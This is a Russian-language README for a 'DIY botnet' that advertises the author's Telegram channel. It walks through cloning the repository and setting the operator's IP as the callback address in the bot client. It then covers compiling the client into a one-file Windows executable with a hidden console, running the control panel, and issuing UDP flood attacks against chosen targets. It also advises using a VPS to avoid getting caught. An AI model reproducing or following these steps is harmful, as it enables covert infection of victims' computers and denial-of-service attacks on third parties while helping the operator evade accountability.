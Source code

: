 <h1 align="center">Подпишись на мой телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">Простой бот-нет своими руками ot N∆RI</h3>
Можно также использовать как панель для VPS ботнета <br>
Клонируем гит <br>
 
```shell
git clone https://github.com/Samuraianonweb/bot
```
<br>
 
```shell
cd bot
```
<br>
Чтобы не попасться , лучше использовать VPS<br>

Чтобы узнать свой(VPS) ip <br>
​```shell
$ ifconfig
```

Редактируем файл smss.py

<br>
 
​```shell
run=False
	def __init__(self, connect:Tuple[str,int]=("вставляем свой ip",9999)) -> None:
<br>
```
Когда всё подготовленно , осталось зделать с Python  в EXe файл<br>

Установка pyinstaller<br>
 
```shell
pip install pyinstaller
```

После полной установки в нашем директории bot <br>
Приступаем к билду exe <br>
 
```shell
pyinstaller --onefile --noconsole smss.py<br>
```
<br>
Флаг --onefile собирает всё в один файл<br>
Флаг --noconsole делает так чтобы при запуске скрывалась консоль <br>
После того как наш файл exe создался можно начать с панели <br>

Запуск панели 
 
```shell
python Server.py
```
Вводим help и видем всё настройки 
update - Для обновления листа ботов 
list - Показать активных ботов 
Команда атаки<br>
 
```shell
attack udp <ip> <port> <time in second> <thread>
```
